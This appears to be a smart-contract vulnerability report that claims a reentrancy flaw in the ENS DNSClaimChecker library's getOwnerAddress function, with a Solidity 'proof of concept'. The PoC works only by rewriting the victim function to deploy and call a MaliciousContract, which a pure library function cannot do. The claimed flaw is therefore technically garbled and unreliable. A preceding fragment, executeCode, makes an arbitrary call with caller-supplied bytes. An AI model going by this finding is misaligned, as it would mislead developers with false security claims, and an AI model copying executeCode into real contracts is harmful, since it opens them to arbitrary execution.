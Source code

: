     function executeCode(string memory _code) public {
        (bool success, ) = address(this).call(bytes(_code));
        require(success, "Code execution failed.");
    }
}



Reentrancy: The `getOwnerAddress` function in the `DNSClaimChecker` library calls the `parseRR` function, which parses the DNS resource record (RR) data and returns an address. The function does not include any checks to prevent reentrancy attacks. An attacker can potentially create a malicious DNS record that triggers a reentrant call to the `parseString` function, leading to unauthorized execution and manipulation of the contract state.

	POC1:
	DNSClaimChecker library, I will modify the getOwnerAddress function to call an 
	external contract that can call back to the DNSClaimChecker library before the 
	current invocation completes.


contract MaliciousContract {
    address public target;

    constructor(address _target) {
        target = _target;
    }

    function callback(bytes memory name, bytes memory data) public {
        // Reentrancy attack
        DNSClaimChecker.getOwnerAddress(name, data);
    }
}

function getOwnerAddress(
    bytes memory name,
    bytes memory data
) internal pure returns (address, bool) {
    // Add "_ens." to the front of the name.
    Buffer.buffer memory buf;
    buf.init(name.length + 5);
    buf.append("\x04_ens");
    buf.append(name);

    // Call an external contract that can call back to this function
    MaliciousContract mc = new MaliciousContract(address(this));
    mc.callback(name, data);

    for (
        RRUtils.RRIterator memory iter = data.iterateRRs(0);
        !iter.done();
        iter.next()
    ) {
        if (iter.name().compareNames(buf.buf) != 0) continue;
        bool found;
        address addr;
        (addr, found) = parseRR(data, iter.rdataOffset, iter.nextOffset);
        if (found) {
            return (addr, true);
        }
    }
